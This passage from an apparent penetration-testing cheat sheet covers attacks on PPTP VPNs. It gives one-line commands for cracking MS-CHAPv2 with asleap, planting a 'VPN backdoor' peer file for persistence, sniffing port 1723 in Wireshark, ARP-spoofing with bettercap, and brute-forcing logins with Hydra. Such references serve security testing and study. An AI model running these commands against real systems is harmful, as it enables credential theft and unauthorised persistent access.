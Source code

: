    \

*   **Tool:** \[\[Asleap]]]

    ```bash
    asleap -C CHALLENGE -R RESPONSE -W wordlist.txt
    ```
* **Description:** Exploits the vulnerabilities in MS-CHAPv2 to gain initial access by cracking the VPN credentials.

### Persistence

#### Persistent VPN Backdoor

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo "pptp <target_ip> user <username> password <password>" >> /etc/ppp/peers/vpn-backdoor
    ```
* **Description:** Establishes a persistent VPN connection that can be reactivated by the attacker when needed.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port 1723"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra <protocol>://<target_ip> -s <target_port> -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.
